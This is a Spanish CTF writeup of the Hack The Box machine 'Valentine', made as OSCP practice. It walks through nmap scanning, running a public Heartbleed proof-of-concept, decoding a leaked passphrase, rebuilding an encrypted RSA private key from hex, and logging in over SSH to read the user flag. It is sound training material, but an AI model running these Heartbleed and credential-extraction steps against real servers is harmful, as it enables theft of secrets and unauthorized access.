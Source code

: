 ```yaml
---
layout: post
title:  "OSCP Path ~ Valentine de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada VALENTINE siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, Cifrado Decimal, Cifrado Hex, Dovecot, Maquinas Retiradas, Writeup, Hacking
---
```


# Valentine ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10. 79      "
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2021-05-04T17:49:21+00:00; +1s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Lanzamos el script de `http-enum.nse`:
```bash
# nmap --script http-enum -p80,443 10.10.10.79 -oN Webscan                                                                        

PORT    STATE SERVICE
80/tcp  open  http
| http-enum: 
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder
443/tcp open  https
| http-enum: 
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder
```
Vamos a proseguir lanzando scripts de nmap para identificar vulnerabilidades:
```bash
# nmap --script ssl-heartbleed.nse -p22,80,443 10.10.10.79 -oN HeartbleetScan 

PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|       http://cvedetails.com/cve/2014-0160/
|_      http://www.openssl.org/news/secadv_20140407.txt 
```
# Definicion de Heartbleed
Heartbleed (español:  hemorragia de corazón) es un agujero de seguridad de software en la  biblioteca de código abierto OpenSSL,
solo vulnerable en su versión  1.0.1f, que permite a un atacante leer la memoria de un servidor o un  cliente, permitiéndole por ejemplo,
conseguir las claves privadas SSL de  un servidor.

Podriamos a ver conseguido ver que es vulnerable lanzando el siguiente comando tambien basado en cateegorias de scripts de nmap
```bash
nmap --script “vuln and safe” 10.10.10.79 -oN ScanManchine
```

# Explotando Heartbleed
Exploit funcional de Heartbleet
https://raw.githubusercontent.com/sensepost/heartbleed-poc/master/heartbleed-poc.py
Lo descargamos y Lo usamos de la siguiente forma:

Donde `-n` es para el `numero de ataques/peticiones` 
Y `-f` para `guardar el resultado` en un `archivo` de output.

```bash
─# python heartbleed-poc.py 10.10.10.79 -n 150 -f heardbleed_out.txt
```
Conseguimos sacar atraves del exploit una cadena de nbase 64 que anotamos en hases como contraseña.
```bash
# echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d                 
"heartbleedbelievethehype"
```
Chequeamos la web en las rutas que script `http-enum` nos habia enumerado.
En la ruta `http://10.10.10.79/dev/`
Encontramos un directory listing con dos archivos
```bash
hype_key
notes.txt
```
Aqui encontramos un archivo en formato `HEX` que reverseamos con el comando `xxd -ps -r` y le pasamos el archivo almacenado con nombre `hex`.
```bash
# xxd -ps -r hex 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY----- 
```
Credenciales: User - `hype` 
Procedemos a intentar conectarnos por `SSH` con las credenciales obtenidas y la `id_rsa`
```bash
# ssh -i id_rsa hype@10.10.10.79             
Enter passphrase for key 'id_rsa':  
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
hype@Valentine:~$ cd Desktop/
hype@Valentine:~/Desktop$ ls
user.txt
hype@Valentine:~/Desktop$ cat user.txt 
e6710a5464769fd5fcd2xxxxxxxxxxxxxxx
```
Conseguimos conectarnos y conseguimos la flag del `user.txt`
